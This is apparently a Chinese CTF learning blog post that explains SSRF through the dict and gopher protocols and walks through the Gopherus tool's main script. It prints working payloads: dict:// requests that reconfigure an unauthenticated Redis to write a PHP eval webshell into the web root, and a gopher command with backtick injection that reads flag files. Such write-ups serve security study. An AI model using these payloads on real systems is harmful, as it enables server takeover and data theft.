







+++
title = "gopherus工具剖析"
slug = "gopherus-tool-analysis"
description = "没整明白"
date = "2025-03-31T13:46:16"
lastmod = "2025-03-31T13:46:16"
image = ""
license = ""
categories = ["talk"]
tags = ["ssrf", "工具"]
+++

## 说在前面

在软件安全赛的时候有一道较为简单的redisSSRF漏洞，有师傅问我，但是当时并不是很有空，后面在网上找文章(特别是国光师傅的SSRF打穿内网)，发现了一些之前不知道的东西

## 协议了解

SSRF的利用主要与协议相关，有很多，但是这里只说说经常用的

### file\phar

这两个比较熟悉不用多说

### dict

可以用来探测内网服务，端口开启情况，以及命令执行，但是命令执行的时候必须是未设置密码的情况

1、`dict://serverip:port/command:parameter`(如果最后payload中有空格也用`:`)

2、向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n([CRLF](https://so.csdn.net/so/search?q=CRLF&spm=1001.2101.3001.7020))，为漏洞利用增加了便利

3、dict协议执行命令要一条一条执行

但是这个东西始终感觉有些鸡肋，因为他要未设置密码的服务，基本就只有redis了，就连mysql都很难整，需要写个文件，类似于

```php
<?php

$url = "dict://127.0.0.1:3306/";

$ch = curl_init($url);
curl_exec($ch);
curl_close($ch);
```

这里我进行本地测试，给出我开启mysql服务和未开启mysql服务的情况，本服务是有密码的





即使有乱码，也能知道是有这个服务存在的，正当我想要测试远程的时候以ctfshowweb359为例子来进行测试的时候发现失败了，不能成功，不过又来测试ctfshowweb360的时候发现成功了



```
url=dict://127.0.0.1:6379/CONFIG:SET:requirepass:ctfshow

url=dict://127.0.0.1:6379/auth:ctfshow
```

如果要深入一下呢，比如说写个shell？

```
url=dict://127.0.0.1:6379/flushall

url=dict://127.0.0.1:6379/config:set:dir:/var/www/html/

url=dict://127.0.0.1:6379/config:set:dbfilename:shell.php

url=dict://127.0.0.1:6379/set:webshell:"<\x3fphp:phpinfo()\;@eval(\$_POST[1])\;\x3f>"

url=dict://127.0.0.1:6379/save
```

成功getshell



也就是说这个东西可以当ssrf的ping，或者是redis-cli

### gopher

这个协议有个很强力的工具，不过等会说，我们先了解一下如何较为原始的去利用这个协议，使用格式为

```
gopher://<server>:<port>/<prefix><encoded_data>
```

- **`<prefix>`** 可以是单字符（如 `_`、`1` 等），但部分服务会根据前缀字符触发不同行为（如 Redis 会解析前缀为命令长度）。所以常用的还是`_`
- 数据部分的特殊字符（如 `?`、`&`、空格等）必须 URL 编码，否则会被截断或解析错误。

其中我觉得这个协议最好玩的就是如果getshell的情况下，可以直接RCE，不用编码不用做格式转换，并且端口只需要存活即可，不用特殊端口，但是实用性感觉不大

```gopher
curl gopher://localhost:80/_`cat /f* > 1.txt`
```



这个协议能够完美的解决`dict`协议只能执行一条命令导致无法攻击授权应用的短板，使用的方法可具体参考[ssrf打通内网靶场](https://baozongwi.xyz/2025/04/02/%E5%9B%BD%E5%85%89%E9%9D%B6%E5%9C%BAssrf%E6%89%93%E7%A9%BF%E5%86%85%E7%BD%91/)，讲不清楚，但是你一看就明白

## gopherus用法

先进行安装

```
chmod +x install.sh
sudo ./install.sh
```

在这之前要有python2的pip才能够完美的安装，工具的基本针对的都是未授权服务，并且反弹shell的服务是修改不了端口的(我没找到)，但是对于sql这种手写比较麻烦的确实工具不错





把payload部分进行二次编码即可

## gopherus剖析

终于可以看代码了，这是一个python的工具

```python
#!/usr/bin/python2
import argparse
import sys
sys.path.insert(0,'./scripts/')
from scripts import FastCGI, MySQL, PostgreSQL, DumpMemcached, PHPMemcached, PyMemcached, RbMemcached, Redis, SMTP, Zabbix

parser = argparse.ArgumentParser()
parser.add_argument("--exploit",
                        help="mysql,\n"
                             "postgresql,\n"
                             "fastcgi,\n"
                             "redis,\n"
                             "smtp,\n"
                             "zabbix,\n"
                             "pymemcache,\n"
                             "rbmemcache,\n"
                             "phpmemcache,\n"
                             "dmpmemcache")
args = parser.parse_args()

class colors:
    reset='\033[0m'
    red='\033[31m'
    green='\033[32m'
    orange='\033[33m'
    blue='\033[34m'

print colors.green + """

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\\\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \\
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/
""" + "\n\t\t" + colors.blue + "author: " + colors.orange + "$_SpyD3r_$" + "\n" + colors.reset

if(not args.exploit):
    print parser.print_help()
    exit()

if(args.exploit=="mysql"):
    MySQL.MySQL()
elif(args.exploit=="postgresql"):
    PostgreSQL.PostgreSQL()
elif(args.exploit=="fastcgi"):
    FastCGI.FastCGI()
elif(args.exploit=="redis"):
    Redis.Redis()
elif(args.exploit=="smtp"):
    SMTP.SMTP()
elif(args.exploit=="zabbix"):
    Zabbix.Zabbix()
elif(args.exploit=="dmpmemcache"):
    DumpMemcached.DumpMemcached()
elif(args.exploit=="phpmemcache"):
    PHPMemcached.PHPMemcached()
elif(args.exploit=="rbmemcache"):
    RbMemcached.RbMemcached()
elif(args.exploit=="pymemcache"):
    PyMemcached.PyMemcached()
else:
    print parser.print_help()

```

index中根据用户输入对关键代码进行调用，后面看了一下关键代码发现除了redis基本都看不懂，挖坑，待填

## 小结

准备拿国光师傅的SSRF打穿内网练练手，请看下集
